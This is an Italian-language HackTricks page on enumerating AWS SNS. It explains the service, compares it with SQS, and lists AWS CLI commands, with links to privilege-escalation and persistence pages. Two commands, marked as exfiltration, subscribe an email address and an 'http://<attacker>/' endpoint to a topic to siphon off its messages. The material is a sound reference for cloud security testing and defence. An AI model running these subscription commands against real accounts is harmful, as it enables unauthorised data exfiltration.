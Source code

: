 # AWS - SNS Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS) è descritto come un **servizio di messaggistica completamente gestito**. Supporta sia i tipi di comunicazione **applicazione-a-applicazione** (A2A) che **applicazione-a-persona** (A2P).

Le caratteristiche chiave per la comunicazione A2A includono i **meccanismi di pubblicazione/sottoscrizione (pub/sub)**. Questi meccanismi introducono **argomenti**, cruciali per abilitare messaggi **push-based** ad alta capacità e **many-to-many**. Questa funzionalità è altamente vantaggiosa in scenari che coinvolgono sistemi distribuiti, microservizi e architetture serverless basate su eventi. Sfruttando questi argomenti, i sistemi di pubblicazione possono distribuire messaggi in modo efficiente a un **ampio numero di sistemi di sottoscrizione**, facilitando un modello di messaggistica fanout.

### **Differenza con SQS**

**SQS** è un servizio **basato su coda** che consente comunicazioni punto-a-punto, garantendo che i messaggi siano elaborati da un **singolo consumatore**. Offre **consegna almeno una volta**, supporta code standard e FIFO, e consente la retention dei messaggi per ripetizioni e elaborazioni ritardate.\
D'altra parte, **SNS** è un servizio **basato su pubblicazione/sottoscrizione**, che consente comunicazioni **uno-a-molti** trasmettendo messaggi a **più sottoscrittori** simultaneamente. Supporta **vari endpoint di sottoscrizione come email, SMS, funzioni Lambda e HTTP/HTTPS**, e fornisce meccanismi di filtraggio per la consegna mirata dei messaggi.\
Sebbene entrambi i servizi consentano il disaccoppiamento tra i componenti nei sistemi distribuiti, SQS si concentra sulla comunicazione in coda, mentre SNS enfatizza i modelli di comunicazione basati su eventi e fan-out.

### **Enumerazione**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Nota che se il **topic è di tipo FIFO**, possono essere utilizzati solo gli abbonati che utilizzano il protocollo **SQS** (HTTP o HTTPS non possono essere utilizzati).

Inoltre, anche se il `--topic-arn` contiene la regione, assicurati di specificare la regione corretta in **`--region`** o riceverai un errore che sembra indicare che non hai accesso, ma il problema è la regione.
{% endhint %}

#### Accesso non autenticato

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Escalation dei privilegi

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Post sfruttamento

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Persistenza

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Riferimenti

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

